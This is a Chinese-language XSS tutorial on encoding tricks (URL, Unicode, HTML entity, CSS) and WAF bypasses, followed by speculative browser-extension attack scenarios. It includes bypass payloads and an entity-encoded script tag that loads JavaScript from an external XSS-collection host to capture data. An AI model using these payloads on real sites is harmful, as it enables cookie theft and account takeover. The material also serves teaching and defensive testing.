 # XSS编码与绕过

![](/attackUsers/xss/image/xss-17.png)

---

## 01. URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。

URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

这个在编码DOM XSS可能会用到，比如我上次说的`<<XSS分类与漏洞挖掘>>`0×04节DOM XSS 在chrome maxthon firefox里对URL里的a=后面的字节进行了URL进行编码，只能在360浏览器里成功，这就是浏览器对URL进行了URL编码。

## 02. unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。

Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

## 03. HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

例如：
```html
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

可以正常显示。

但是当你把src或者img进行html编码就不行了

例如：
```html
img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

## 04. CSS编码
这个不是太常用。就是/斜杠加上1-6位十六进制

之前在IE5之前都可以用expression来调用js时，这个编码很有用。 现在大多都是用于CSS小图标。

## 05. 假设
网站检测script标签里的src值是否为网站(关键字有`http&https&com&cn&net&&js`)

那我们该怎么绕过呢，看下面的实例代码：

```html
<script
src="&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#56;&#46;&#112;&#119;&#47;&#98;&#103;&#70;&#102;&#66;&#120;&#63;&#49;&#52;&#49;&#57;&#50;&#50;&#57;&#53;&#54;&#53;"></script>

```

打开审查元素——网络，我们成功的看到了我们的JS被加载了

![](/attackUsers/xss/image/xss-37.png)

XSS平台里也获取到了。

## 05. 常见的绕过方式

```html
<sCrIpt>alert(1)</script>

<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>

<scr<script>rip>alalertert</scr</script>rip> (需要利用waf的不完整性)


//后面会讲
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

```

```html
标签属性`="javascript:JS代码"`(只对支持js伪协议的属性起作用)

```

```html
<标签 on事件="js代码">
```

```html
<script
woaini>
alert(123)
</script
woaini>
```

浏览器下会把换行 TAB符当成空格，把后面的字符当做属性来解析

## 06. 插件安全
即使你网站做的再安全，WAF再怎么完整。我利用插件照样可以绕过。插件的有它的特殊性，也是这个特殊性成就了他的安全问题，那就是“跨域”。

** 我在里说下插件是如何渲染到页面的： **
> 用户打开网站——发送数据包——服务器响应并发送Response包——浏览器收到Response包——渲染(先渲染Response包，再渲染插件的代码)

** 也就是说我在插件里写了一段js，那么用户安装后，凡是打开网站。浏览器渲染后，就可以获取用户的cookies。如果攻击者事先有准备，还可以利用csrf攻击。 **这里我们大胆假设下：

** 假设1： **攻击者把XSS代码封装到插件里，上传到浏览器插件下载网站(管理不严，管理员根本不可能一行一行代码看)，上传成功后。用户下载，并安装。那么攻击者就可以坐在电脑前，喝着咖啡，看着不断刷新的xss数据流…

** 假设2： **攻击者拥有dedecms的csrf(可以添加管理员)，后面的和假设1一样。当网站管理员不小心安装或者使用了带有插件浏览器，网站就会被攻击者控制。有些人会问，几率那么小，怎么可能跑到我身上。是不太可能跑到你身上，倒是有可能跑到其他站长身上，当你想想中国站长有多少时，相信你就会明白了

** 假设3： **攻击者拥有某个浏览器插件的XSC漏洞，再结合插件安全问题，就可以实现用户打开某个网站，就会被不知不觉中安装插件，有些人会说，有XSC我就直接执行任意代码了，谁还蛋疼式的去安装插件。如果攻击者想隐蔽式的攻击呢？而且控制电脑获取cookies我想这个应该比直接安装插件更加麻烦吧？当然攻击者也可以两个同时进行。

当然了，也有很多人会说，我安装安全健康绿色无污染的插件不就不怕了吗。

楼主说的十分有理，只不过你忽视了插件本身的安全问题，我之前所说的都是利用插件的特殊性来完成攻击，可是我并没有说插件本身的安全。

这时恐怕又有人质疑了，插件即使不安全，那也需要用户输入特殊的字符串里完成攻击，你这不就是在自己插自己么。

我所说的插件安全问题指的不是这，而是控制插件的数据流。因为插件的安全问题本身就没多大的利用价值，大多数时候都是自己插自己。

假设有一个在线翻译的插件，鼠标滑词，自动翻译。而这个技术就需要利用到AJAX，而AJAX利用的就是厂商提供的API，而API很多时候都在二级域名，安全性相对来说就比较低了。如果控制API了，那么就可以控制API发送给插件的数据流，从而达到攻击。

** 流程图就是下面这样： **
> 黑客发现插件调取的API网站安全漏洞——重写了发送的数据包——插件获取被重写API数据——解析并把恶意代码渲染到页面——攻击成功。

当然了，不止API，有的插件还调用了外部的JS、CSS、iframe(HTML)等，我们也可以控制他们里来完成攻击。



